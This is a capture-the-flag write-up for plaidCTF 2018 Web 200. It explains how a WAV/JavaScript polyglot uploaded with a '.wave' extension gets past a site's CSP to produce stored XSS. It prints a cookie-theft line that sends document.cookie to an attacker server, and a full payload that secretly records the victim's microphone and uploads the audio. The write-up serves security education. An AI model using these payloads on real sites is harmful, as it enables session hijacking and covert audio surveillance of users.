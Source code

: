 # idIoT: Action
*plaidCTF 2018 Web 200*<br>
*Writeup by Payload, KAIST GoN*


## Problem

Some people won't let any smart devices in their home at all. Some are cautious, do their research, and make an informed decision. This guy falls in neither category; he's a a downright idIoT. 

The idIoT uses this service called [clipshare](https://idiot.chal.pwning.xxx/); you can find his account [here](https://idiot.chal.pwning.xxx/user.php?id=3427e48e-a6eb-4323-aed4-3ce4a83d4f46) or here after you make an account. 

He was telling me the other day about how he has a Google Home next to his computer running at all times. He also told me that if you ask politely it will tell you the flag. However, while he'll look at anything you share, he closes it almost immediately if he doesn't seem like it'll interest him. Maybe we can look at his clips to find something to match his interests? 

(Flag format: PCTF{xxx} where xxx is some text composed of lower-case letters and underscores)

## Look up
We can write a new clip with title, description and audio. Audio can be uploaded, or can be recorded using our browser. After some simpletest, we can find 'Description' field allows us `HTML Tag Injection`, but not `<script>` becuase of its CSP.

![Tag injected](https://i.imgur.com/F4fv0PF.png)
![CSP](https://i.imgur.com/hvCZdyr.png)

Since CSP exists `script-src 'self'`, XSS shoud be able by uploading some scripts into clip and including it.

## Weak audio check and MIME type

Server refuses the file when its extension is not ended with `.wav/.wave/.mp3/.ogg/.web`. But it doesn't seems strictly check it. We can upload some corrupted audio files like this one!
![Is this real wav?](https://i.imgur.com/15mYPVI.png)

It considered as normal wave file becuase of its magic number, but it also can be translated as following javascript.

```javascript
RIFF=1;
alert('test');
```

I've tried script injection with .wav and .mp3 files, but both of them didn't work. It couldn't pass the MIME type check. ![mpeg MIME is not executable](https://i.imgur.com/5wBeF6O.png)

After searching about it, I found a document that lists [default apache MIME types](https://svn.apache.org/repos/asf/httpd/httpd/trunk/docs/conf/mime.types)
![Where is .wave??](https://i.imgur.com/c5X5Dup.png)

We can see apache doesn't recognize `.wave` extension as `audio/*`, thus including `.wave` file like following may allow to execute scripts.

```html
<script src="uploads/upload_5aeea228222b70.00604196.wave"></script>
```

## Get a flag
Two steps are required to get a flag.

* Show admin's clips
* Record a response of Google Home.  

### Show clips of admin
Since we know how to execute javascript, stealing is easy. There are various ways to steal admin's clip.

```javascript
location.href = <your server> + "?ck=" + document.cookie;
```

After we change our session to admin's session, we can see two clips.

First clip is

	Title; Thoughts on Google Home
	
	I got a Google Home recently, and I've been having a lot of fun with it!
		
and next one is
 
	Title; Nostalgia
	
	Has anyone else played Toaster Wars?
	Share me clips with 'spatulate' in the description and I'll give them a listen!
	
By attached audio of first clip, if we say "Hey Google, what is a flag?" to Google Home, it will answer the flag. So the next thing to do is asking "Hey Google, what is a flag?" using audio upload and writing a description as 'spatulate'. Then bot will listen our question, and Google Home will answer the flag.

### Record from admin's account
We already get a flag. But it has a problem. We know Google Home **speaks** the flag, then how can we get it? `js/main.js` has the answer. `main.js` has implementations to deal with this problem. 

![record, submit](https://i.imgur.com/if9YeMI.png)

If we reconstruct javascripts using those implementations of record and submit features, we can write a new clip! But admin's account can't write a new clip, so we have to write it to our own account by chainging session.

So final payload is

Description field:

```html
spatulate
<form action="create.php" method="post" enctype="multipart/form-data" id="upload-form">
	<input type="text" name="title" value="answer"/>
	<input type="text" name="description" value="answer"/>
	<audio id="record-playback" controls></audio>
	<input type="submit" name="submit" value="submit" />
</form>
<script src="uploads/upload_5aeea228222b70.00604196.wave"></script>
```

Script in .wave:

```javascript
navigator.mediaDevices.getUserMedia({ audio: true })
	.then((stream) => {
	mediaRecorder = new MediaRecorder(stream, { mimeType: 'audio/webm' });
	mediaRecorder.start();
	let chunks = [];
	mediaRecorder.addEventListener("dataavailable", (e) => {th
		chunks.push(e.data);
		console.log(e.data);
	});
	mediaRecorder.addEventListener("stop", () => {
		mediaBlob = new Blob(chunks);
		document.cookie = "PHPSESSID=<YOUR PHP SESSION ID>";
	
		let uploadForm = document.getElementById("upload-form");
		let formData = new FormData(uploadForm);
	   	formData.append("audiofile", mediaBlob, "audio.webm");
	   	let f = fetch("create.php", {
			method: "POST",
			body: formData,
			credentials: "same-origin"
		});	
	})
	setTimeout(function() {
		mediaRecorder.stop();
	}, 15000);
});
```	

### Answer
Injected script will write a new clip named 'answer' with an audio reading flag :D

The flag is `PCTF{not_so_smart}`
